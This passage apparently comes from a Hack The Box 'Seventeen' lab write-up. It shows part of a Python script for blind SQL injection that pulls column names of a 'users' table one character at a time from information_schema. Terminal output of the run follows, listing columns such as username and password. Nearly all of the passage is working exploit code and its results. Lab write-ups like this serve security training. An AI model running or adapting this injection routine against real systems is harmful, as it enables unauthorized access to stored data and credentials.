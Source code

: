 ```python
    return None

def extract_column_name(column_index, length):
    print(f"[*] Extracting column name at index {column_index}...")
    column_name = ""
    for position in range(1, length + 1):
        for ascii_code in range(32, 127):  # Printable ASCII
            condition = f"ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='{TARGET_TABLE}' LIMIT 1 OFFSET {column_index}), {position}, 1))={ascii_code}"
            if is_condition_true(condition):
                column_name += chr(ascii_code)
                print(f"[+] Position {position}: {chr(ascii_code)}")
                break
    print(f"[✔] Extracted column name {column_index}: {column_name}")
    return column_name

if __name__ == "__main__":
    column_count = find_column_count()
    all_columns = []
    if column_count:
        for i in range(column_count):
            name_length = find_column_name_length(i)
            if name_length:
                col_name = extract_column_name(i, name_length)
                all_columns.append(col_name)
    print(f"\n[✔] All columns in '{TARGET_TABLE}': {all_columns}")

```

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ python sqli_get_columns.py 
[*] Finding total number of columns in table 'users'...
[✔] Number of columns in 'users': 19
[*] Finding length of column name at index 0...
[✔] Length of column 0: 2
[*] Extracting column name at index 0...
...SNIP...
[✔] Extracted column name 0: id
[*] Finding length of column name at index 1...
[✔] Length of column 1: 9
[*] Extracting column name at index 1...
...SNIP...
[✔] Extracted column name 1: firstname
[*] Finding length of column name at index 2...
[✔] Length of column 2: 8
[*] Extracting column name at index 2...
...SNIP...
[✔] Extracted column name 2: lastname
[*] Finding length of column name at index 3...
[✔] Length of column 3: 8
[*] Extracting column name at index 3...
...SNIP...
[✔] Extracted column name 3: username
[*] Finding length of column name at index 4...
[✔] Length of column 4: 8
[*] Extracting column name at index 4...
...SNIP...
[✔] Extracted column name 4: password
[*] Finding length of column name at index 5...
[✔] Length of column 5: 6
[*] Extracting column name at index 5...
...SNIP...
[✔] Extracted column name 5: avatar
```